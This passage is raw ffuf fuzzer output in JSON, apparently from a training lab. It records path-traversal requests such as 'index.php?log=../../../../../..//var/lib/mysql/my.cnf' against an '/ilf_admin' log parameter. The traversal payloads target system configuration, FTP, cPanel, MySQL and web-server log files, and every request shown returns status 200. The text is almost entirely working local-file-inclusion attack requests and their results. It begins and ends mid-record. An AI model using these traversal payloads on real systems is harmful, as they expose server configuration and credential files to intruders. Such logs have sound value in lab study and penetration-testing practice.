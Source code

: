 charset=UTF-8","redirectlocation":"","scraper":{},"duration":44637733,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php5/lib/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf592","FUZZ":"/usr/local/pureftpd/etc/pure-ftpd.conf"},"position":146,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43358357,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/pureftpd/etc/pure-ftpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf58f","FUZZ":"/usr/local/php/httpd.conf"},"position":143,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44514752,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php/httpd.conf","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf591","FUZZ":"/usr/local/php/lib/php.ini"},"position":145,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43667538,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php/lib/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf590","FUZZ":"/usr/local/php/httpd.conf.ini"},"position":144,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44007579,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/php/httpd.conf.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf593","FUZZ":"/usr/local/pureftpd/etc/pureftpd.pdn"},"position":147,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44614862,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/pureftpd/etc/pureftpd.pdn","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf596","FUZZ":"/usr/local/Zend/etc/php.ini"},"position":150,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44508922,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/Zend/etc/php.ini","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf595","FUZZ":"/usr/local/www/logs/httpd_log"},"position":149,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44612303,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/www/logs/httpd_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf597","FUZZ":"/usr/sbin/pure-config.pl"},"position":151,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":43899909,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/sbin/pure-config.pl","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf598","FUZZ":"/var/adm/log/xferlog"},"position":152,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44213930,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/adm/log/xferlog","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf59a","FUZZ":"/var/apache/logs/access_log"},"position":154,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44012090,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/apache/logs/access_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf594","FUZZ":"/usr/local/pureftpd/sbin/pure-config.pl"},"position":148,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":46040960,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//usr/local/pureftpd/sbin/pure-config.pl","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf599","FUZZ":"/var/apache2/config.inc"},"position":153,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44578082,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/apache2/config.inc","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf59b","FUZZ":"/var/apache/logs/error_log"},"position":155,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":44645992,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/apache/logs/error_log","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf59c","FUZZ":"/var/cpanel/cpanel.config"},"position":156,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html; charset=UTF-8","redirectlocation":"","scraper":{},"duration":45543327,"resultfile":"","url":"http://83.136.249.210:45840/ilf_admin/index.php?log=../../../../../..//var/cpanel/cpanel.config","host":"83.136.249.210:45840"},{"input":{"FFUFHASH":"f6cf59d","FUZZ":"/var/lib/mysql/my.cnf"},"position":157,"status":200,"length":2046,"words":150,"lines":102,"content-type":"text/html;